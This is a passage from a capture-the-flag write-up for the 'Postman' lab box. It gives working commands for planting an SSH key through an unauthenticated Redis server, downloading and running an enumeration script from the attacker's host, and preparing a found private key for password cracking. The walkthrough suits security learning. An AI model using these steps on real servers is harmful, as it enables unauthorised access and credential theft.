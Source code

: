 Well that is great we are on .**ssh** **folder** by **default** and we assume that the **username** is **redis**

### Exploition

    on our machine 
    1- ssh-keygen -t rsa
    2- (echo -e "\n\n"; cat ~/.ssh/id_rsa.pub; echo -e "\n\n") > foo.txt 
    3- cat foo.txt | redis-cli -h 10.10.10.160 -x set crackit

![/images/Postman/added-key.png](/images/Postman/added-key.png)

now we added our SSH pub  to a key called crackit , we then should add the **crackit key** value to **authorized_key** file on the server

    redis-cli -h 10.10.10.160
    10.10.10.16:6379>> config set dbfilename "authorized_keys"
    10.10.10.16:6379>> save 
    
    on our machine 
    
    ssh -i id_rsa redis@10.10.10.160

![/images/Postman/login-user.png](/images/Postman/login-user.png)


there is another user on the box called **Matt**

### Elevate privileges

1- **From redis to Matt**

Since we don't have a password for the **redis** user, we go to enumeration. 

Uploaded [LinEnum.sh](http://linenum.sh) to the box.

    redis@Postman>> cd /tmp
    redis@Postman>> wget http://10.10.14.5:8000/LinEnum.sh
    redis@Postman>> chmod +x LinEnum.sh  #to make the script executable
    redis@Postman>> ./LinEnum.sh
    

From the output we see that there is a backup of **RSA** key left at /**opt**/ folder

![/images/Postman/id_rsa.bak.png](/images/Postman/id_rsa.bak.png)

![/images/Postman/id.png](/images/Postman/id.png)

Copy the RSA to our machine to start craking it. we will use **John** to crack the has but first we need to transfer the key to john format.

I use [sshng2john](https://github.com/truongkma/ctf-tools/blob/master/John/run/sshng2john.py) instead of the one shipped with john.

    python [ssh2john.py](http://ssh2john.py/) id_bak | tee id_bak.hash

![/images/Postman/sshn2joh.png](/images/Postman/sshn2joh.png)
